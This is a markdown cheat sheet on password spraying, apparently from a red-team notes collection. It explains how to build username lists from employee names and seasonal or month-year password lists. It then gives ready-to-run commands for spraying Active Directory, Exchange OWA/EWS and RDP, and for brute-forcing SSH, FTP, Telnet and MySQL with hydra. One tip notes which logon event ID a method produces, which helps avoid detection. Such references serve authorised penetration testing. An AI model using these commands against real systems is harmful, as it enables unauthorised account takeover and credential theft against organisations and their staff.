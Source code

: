 # __Password spraying__
>Author: Pieter Miske
---
### __Create username and password lists:__
##### _Create username list:_
>Based on identified email addresses, determine the username convention \(e\.g\. j\.smith, john\.smith\) that is in use by the target organisation before creating username list.
- Create username list based on statistically likely [usernames](https://github.com/insidetrust/statistically-likely-usernames)
- Create username list with multiple username convention structures based on found employee names: 
	- 1\. Create a list of found employees full names \(e\.g\. Bob Farmer\)
	- 2\. Create usernames \([Namemash](https://gist.github.com/superkojiman/11076951)\): python namemash\.py names\.txt >> possible\-usernames\.txt

##### _Create targeted password list:_
>Keep it mind that patterns such as MonthYear \(August2019\), SeasonYear \(Summer2019\) and DayDate \(Tuesday6\) are very common\.
- Manually create a small common wordlist based on basic patterns \(MonthYear, SeasonYear, DayDate\) and very common words/numbers
- Generate a wordlist for password spraying by running the [goPassGen](https://github.com/bigb0sss/goPassGen) tool and follow wizard to create wordlist\. 
- Crawl target website to generate wordlist \([ceWL](https://github.com/digininja/CeWL)\): `cewl -m <minimal_word_length (e.g. 6)> -d 5 -w <output file.txt> <target ip or domain> --with-numbers`


---
### __Conduct password spraying:__
>Be aware that these authentication attempts may count towards the domain lockout policy for the users\. Too many attempts in a short period of time is not only loud, but may also lock accounts out\.
##### _Password spray targeting Domain Controller:_
Check if a found password or a common/weak one applies to a domain account\.
- Kerberos password spray: 
	- \([C2\-Tool\-Collection-BOF](https://github.com/outflanknl/C2-Tool-Collection)\) \(possible to specify account name filter\): `SprayAD <password> (<adm*>)`
	- \([SharpMapExec](https://github.com/cube0x0/SharpMapExec)\) Kerberos password spray (tool requires elevated privs on the system it's run from): `SharpMapExec kerbspray /users:C:\users\public\documents\users.txt /passwords:C:\users\public\documents\passwords.txt /domain:<FQDN> /dc:<FQDN target DC>`
- LDAP password spray:
    - (C2\-Tool\-Collection-BOF) \(uses logon event ID 4771 instead of 4625\): `SprayAD <password> ldap`
    - \([CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)\): `crackmapexec smb -u <username list> -p <password> (--exec-method wmiexec)`

##### _Password spray targeting mail server:_
- Spray against Exchange EWS/OWA portal \(use "Invoke\-PasswordSprayOWA" against an OWA portal\) \([MailSniper\.ps1](https://github.com/dafthack/MailSniper)\): `Invoke-PasswordSprayEWS -ExchHostname <FQDN or IP exchange server> -UserList <path to userlist.txt> -Password <single password> -Threads 15 -OutFile valid-creds.txt`
- Spray against multiple mail server types: \([SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit)\): `./atomizer.py <owa | imap | lync> <target mail server domain> <single password> <email_list.txt>`

##### _Password spray targeting other services:_
- Spray against RDP enabled targets \(tool will only list successful logins\) \([Crowbar](https://github.com/galkan/crowbar)\): `sudo python3 crowbar.py -b rdp -s <single target ip>/32 -U <username list> -c <single password> -n 1`
- Bruteforce SSH login: `hydra -f -V -t 1 -L <wordlist/user> -P <wordlist/password> -s 22 <target ip>`
- Bruteforce FTP login: `hydra -L <username list> -P <password list> -f -o <output file> -u <target ip> -s 21 ftp`
- Bruteforce Telnet login: `hydra -L <usernames.txt> -P <passwords.txt> <target ip> telnet -V`
- Bruteforce MySQL login:`hydra -L <userlist.txt> -P <passlist.txt> -f <target ip> mysql`